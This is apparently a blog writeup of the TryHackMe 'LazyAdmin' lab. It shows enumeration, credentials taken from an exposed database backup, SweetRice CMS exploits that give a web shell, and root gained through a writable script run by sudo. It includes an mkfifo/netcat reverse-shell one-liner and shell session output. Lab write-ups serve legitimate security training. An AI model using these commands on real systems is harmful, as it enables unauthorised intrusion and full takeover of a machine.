 ```yaml
---
title: "LazyAdmin Writeup THM"
description: "My writeup of the TryHackMe room [LazyAdmin](https://tryhackme.com/room/lazyadmin)"
date: 2024-01-02
image: https://images.unsplash.com/photo-1494256997604-768d1f608cac?q=80&w=2729&auto=format&fit=crop&ixlib=rb-4.0.3&ixid=M3wxMjA3fDB8MHxwaG90by1wYWdlfHx8fGVufDB8fHx8fA%3D%3D
math:
license:
hidden: false
comments: true
draft: false
tags:
    - Linux
categories:
    - Room
    - Easy
---
```


The first thing that I am going to do is a nmap scan:

```bash
nmap 10.10.243.20
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-01-01 07:27 EST
Nmap scan report for 10.10.243.20
Host is up (0.073s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 10.41 seconds
```

From there we can see that it has:

- 22(SSH)
- 80(HTTP)

First of all I am going to explore the web page.

We got meeted by the apache2 ubuntu default page, that’s good, because now weknow that it is an ubuntu machine and it’s running Apache2.

Now I am just going to run ffuf for directory enumeration:

```bash
ffuf -u http://10.10.243.20/FUZZ -w /usr/share/wordlists/dirb/big.txt

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.243.20/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/big.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

.htaccess               [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 1172ms]
.htpasswd               [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 4189ms]
content                 [Status: 301, Size: 314, Words: 20, Lines: 10, Duration: 57ms]
server-status           [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 57ms]
:: Progress: [20469/20469] :: Job [1/1] :: 353 req/sec :: Duration: [0:00:38] :: Errors: 0 ::
```

As we can see we got a content page, let’s see what’s in here.

![Untitled](https://raw.githubusercontent.com/Blueaulo/LazyAdmin-writeup-THM/main/7474137c-0a7c-410b-8ed2-02a7b17020bd_Export-965f2a31-1018-4c8c-bca0-aab923e3538f/LazyAdmin%20e500b0ab8a7b40c8a695e2a7bb58621b/Untitled.png)

That’s great, now we know that the web page is using Basic CMS.

For now I am just going to follow the tip that the default web page gave us: “If you are the webmaster,please go to Dashboard -> General -> Website setting”.

but for doing that we first need to login and access the dashboard.

I ran another directory scanner, this time inside content:

```bash
ffuf -u http://10.10.243.20/content/FUZZ -w /usr/share/wordlists/dirb/big.txt


      /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.243.20/content/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/big.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

.htpasswd               [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 1687ms]
_themes                 [Status: 301, Size: 322, Words: 20, Lines: 10, Duration: 55ms]
.htaccess               [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 2705ms]
as                      [Status: 301, Size: 317, Words: 20, Lines: 10, Duration: 57ms]
attachment              [Status: 301, Size: 325, Words: 20, Lines: 10, Duration: 58ms]
images                  [Status: 301, Size: 321, Words: 20, Lines: 10, Duration: 57ms]
inc                     [Status: 301, Size: 318, Words: 20, Lines: 10, Duration: 57ms]
js                      [Status: 301, Size: 317, Words: 20, Lines: 10, Duration: 57ms]
:: Progress: [20469/20469] :: Job [1/1] :: 271 req/sec :: Duration: [0:00:45] :: Errors: 0 ::
```

The dashboard is located in /content/as.

But we don’t have the credentials yet.

I went into inc, and there we can see a mysql backup:

![Untitled](https://raw.githubusercontent.com/Blueaulo/LazyAdmin-writeup-THM/main/7474137c-0a7c-410b-8ed2-02a7b17020bd_Export-965f2a31-1018-4c8c-bca0-aab923e3538f/LazyAdmin%20e500b0ab8a7b40c8a695e2a7bb58621b/Untitled%201.png)

Here we can see the hashed password and the login username.

manager:Password123

Now we can see which version is running, after searching on internet I found this script: “https://www.exploit-db.com/exploits/40716”

```bash
+-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-+
|  _________                      __ __________.__                  |
| /   _____/_  _  __ ____   _____/  |\______   \__| ____  ____      |
| \_____  \ \/ \/ // __ \_/ __ \   __\       _/  |/ ___\/ __ \     |
| /        \     /\  ___/\  ___/|  | |    |   \  \  \__\  ___/     |
|/_______  / \/\_/  \___  >\___  >__| |____|_  /__|\___  >___  >    |
|        \/             \/     \/            \/        \/    \/     |
|    > SweetRice 1.5.1 Unrestricted File Upload                     |
|    > Script Cod3r : Ehsan Hosseini                                |
+-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-+

Enter The Target URL(Example : localhost.com) : 10.10.243.20/content
Enter Username : manager
Enter Password : Password123
Enter FileName (Example:.htaccess,shell.php5,index.html) : php.php
[+] Sending User&Pass...
[+] Login Succssfully...
[+] File Uploaded...
[+] URL : http://10.10.243.20/content/attachment/php.php
```

This one didn’t work so I am going to switch to another one that I have found: “https://www.exploit-db.com/exploits/40700”

It bascially tells you to go and add a file in the ads section.

after that we just navigate to the ads directory “http://10.10.243.20/content/inc/ads/” and we have our shell:

```bash
nc -lvnp 4444

listening on [any] 4444 ...
connect to [10.18.20.116] from (UNKNOWN) [10.10.243.20] 35430
Linux THM-Chal 4.15.0-70-generic #79~16.04.1-Ubuntu SMP Tue Nov 12 11:54:29 UTC 2019 i686 i686 i686 GNU/Linux
 15:20:14 up 53 min,  0 users,  load average: 0.00, 0.00, 0.07
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
```

Going to the IT guy directory gives us the user flag.

Now using sudo -l:

```bash
sudo -l
Matching Defaults entries for www-data on THM-Chal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on THM-Chal:
    (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl
```

We can see that we can use perl and backup.pl with root privileges.

```bash
cat /home/itguy/backup.pl

#!/usr/bin/perl

system("sh", "/etc/copy.sh");
```

This basically just execute the `/etc/copy.sh` file

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.18.20.116 4555 >/tmp/f
```

So I changed the cdoe with my ip and port, then executed with: sudo /usr/bin/perl /home/itguy/backup.pl and got the shell.

```bash
nc -lvnp 4555
listening on [any] 4555 ...
connect to [10.18.20.116] from (UNKNOWN) [10.10.243.20] 56612
/bin/sh: 0: can't access tty; job control turned off
# whoami
root
```
